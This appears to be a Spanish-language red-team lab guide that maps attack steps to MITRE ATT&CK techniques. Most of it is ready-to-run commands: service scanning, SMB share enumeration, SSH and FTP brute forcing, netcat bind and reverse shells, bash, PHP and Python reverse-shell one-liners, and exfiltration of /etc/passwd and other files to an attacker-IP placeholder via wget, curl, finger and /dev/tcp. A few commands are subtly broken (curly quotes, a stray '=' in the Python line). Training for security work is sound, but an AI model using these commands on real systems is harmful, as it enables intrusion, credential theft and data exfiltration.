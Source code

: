 # Laboratorio 11. Técnicas de Red Team a través del MITRE ATT&CK (Parte 1)

## Bloque 1. MITRE ATT&CK fase 3. TA0001 Initial Access

### NMap y Metasploit Framework (MSF)
Realizamos un escaneo de servicios con nmap y lo exportamos a XML
```sh
nmap -sV -oX resultados.xml <IP>
```

Inicializamos Metasploit Framework
```sh
service postgresql start
msfdb init 
msfconsole -q
```

Importamos el escaneo de nmap
```sh
db_import resultados.xml
```

Podemos identificar hosts, filtrar por columnas e identificar hosts "vivos"
```sh
hosts
hosts -c address,purpose
hosts -u
```

También podemos identificar servicios de los hosts, filtrando tanto por puerto como por tipo de protocolo.
```sh
services
services -p 80
services -p tcp
```

### Enumerar posibles archivos ocultos con información interesante (T1190. Exploit Public-Facing Application)
Podemos enumerar directorios de una web con dirb
```sh
dirb http://<IP>/dir/
dirb http://<IP>/dir/ -X .html #Busca archivos con una extensión determinada
```

### Exfiltración a través de directorios compartidos por SMB (T1190. Exploit Public-Facing Application)
Podemos enumerar los recursos compartidos de un host con smbmap
```sh
smbmap -H 192.168.11.3 -r /etc/passwd
```

Si encontramos algún recurso con permisos nos podemos conectar mediante smbclient
```sh
smbclient //192.168.11.3/GollumShare
```

Desde la consola podemos navegar por los recursos, y si queremos descargar alguno usamos get

### Diccionarios de contraseñas de palabras comunes contra objetivos concretos (1078. Valid Accounts)
Podemos generar una lista de palabras presentes en una web, por si estas se usan como contraseña de algún usuario
```sh
cewl -m 5 -w words.txt <URL>
```
En este caso guardamos en el archivo words.txt las palabras con una longitud mínima de 5 caracteres.

### Fuerza bruta en línea con Nmap (1078. Valid Accounts)
Podemos aplicar ataques de fuerza bruta contra diferentes servicios que encontremos con nmap
```sh
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt <IP-del-servidor>
nmap -p 21 --script ftp-brute --script-args userdb=users.txt,passdb=passwords.txt <IP-del-servidor>
```

## Bloque 2: MITRE ATT&CK fase 4. TA0002 Execution

### Netcat como herramienta de escucha (TA1059. Command and Scripting Interpreter)
Con netcat podemos ponernos en escucha por cualquier puerto. De este modo podemos lanzarle peticiones, como por ejemplo con telnet,
```sh
nc -lvp <PUERTO>        #Máquina en escucha
telnet <IP> <PUERTO>    #Máquina atacante
```

### Bind shell con netcat (TA1059. Command and Scripting Interpreter)
Ponemos un puerto en escucha en la máquina víctima, que cuando alguien se conecte ejecute una shell. 
```sh
nc -lvp <PUERTO> -e /bin/bash
```
Y nos conectamos desde la máquina atacante
```sh
nc <IP> <PUERTO>
```

### Reverse shell con netcat (TA1059. Command and Scripting Interpreter)
Una forma menos "sospechosa" de obtener una consola remota es con una reverse shell. 
```sh
nc -lvp <PUERTO>                # Nos ponemos en escucha en la máquina víctima
nc <IP> <PUERTO> -e /bin/sh     # Desde la máquina víctima nos conectamos
```

### Reverse shell sin netcat (TA1059. Command and Scripting Interpreter)
Si netcat no está disponible en el sistema remoto se pueden usar otras formas
```sh
bash -i >& /dev/tcp/<IP de la máquina atacante>/<PUERTO> 0>&1

php -r ‘$sock=fsockopen(“<IP de la máquina atacante>”,<PUERTO>);exec(“/bin/sh -i <&3 >&3 2>&3”);’

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP de la máquina atacante>",<PUERTO>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);=subprocess.call(["/bin/sh","-i"]);’
```

### Searchploit (T1203. Exploitation for Client Execution)
Podemos buscar si existen exploits disponibles para servicios y versiones conocidas.
```sh
searchploit <Tecnología> <Versión>
```

Estos exploits se encuentran en /usr/share/exploitdb/exploits

## Bloque 3: MITRE ATT&CK fase 9-10: TA0009. Collection / TA0010. Exfiltration
Vamos a extraer información de un sistema remoto usando la técnica de los GTFOBins
```sh
wget --post-file=/etc/passwd <IP del atacante>                                              # La máquina atacante escucha por el puerto 80

bash -c 'echo -e "POST / HTTP/0.9\n\n$(</etc/passwd)" > /dev/tcp/<IP del atacante>/8000'    # La máquina atacante escucha por el puerto 43

nc -lvp 8000 < fichero_privado.txt              # Máquina víctima
nc <IP de la víctima> 8000 > datos_robados.txt  # Máquina atacante

curl -X POST -d @data.txt <IP del atacante>     # Máquina víctima
nc -lvp 80 > data.txt                           # Máquina atacante

finger "$(cat /etc/passwd)@<IP del atacante>"   # El atacante escucha en el puerto 79

php -S 0.0.0.0:8080                             # Máquina víctima
wget <IP de la víctima>:8080/data.txt           # Máquina atacante
```